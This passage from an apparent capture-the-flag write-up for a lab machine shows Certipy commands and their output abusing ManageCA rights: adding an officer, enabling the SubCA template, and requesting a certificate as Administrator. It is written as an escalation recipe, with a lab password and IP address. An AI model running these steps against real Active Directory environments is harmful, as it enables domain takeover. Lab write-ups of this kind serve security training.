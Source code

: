 `certipy-ad ca -u 'raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-DC01-CA -add-officer 'raven' -debug`:
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Authenticating to LDAP server
[+] Bound to ldaps://10.10.11.236:636 - ssl
[+] Default path: DC=manager,DC=htb
[+] Configuration path: CN=Configuration,DC=manager,DC=htb
[+] Trying to get DCOM connection for: 10.10.11.236
[*] Successfully added officer 'Raven' on 'manager-DC01-CA' ←
```

Now that we are officer, we can issue and manage certificates. The `SubCA` template can be
enabled on the CA with the `-enable-template` flag.

`certipy-ad ca -u 'raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-DC01-CA -enable-template SubCA`:
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'manager-DC01-CA' ←
```

The enabled certificate templates can be listed using the `-list-templates` flag.

`certipy-ad ca -u 'raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-DC01-CA -list-templates`:
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Enabled certificate templates on 'manager-DC01-CA':
    SubCA ←
    DirectoryEmailReplication
    DomainControllerAuthentication
    KerberosAuthentication
    EFSRecovery
    EFS
    DomainController
    WebServer
    Machine
    User
    Administrator
```

The prerequisites for the attack are now fulfilled. We have `Manage Certificates` permission,
granted through `ManageCA` , and have ensured that the `SubCA` template is enabled.
Now let us request a certificate based on the `SubCA` template. This request will be denied, but we
will obtain a request ID and a private key, which we save to a file.

`certipy-ad req -u 'raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-DC01-CA -template SubCA -upn Administrator@manager.htb`:
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate. ←
[*] Request ID is 25 ←
Would you like to save the private key? (y/N) y ←
[*] Saved private key to 25.key ←
[-] Failed to request certificate
```
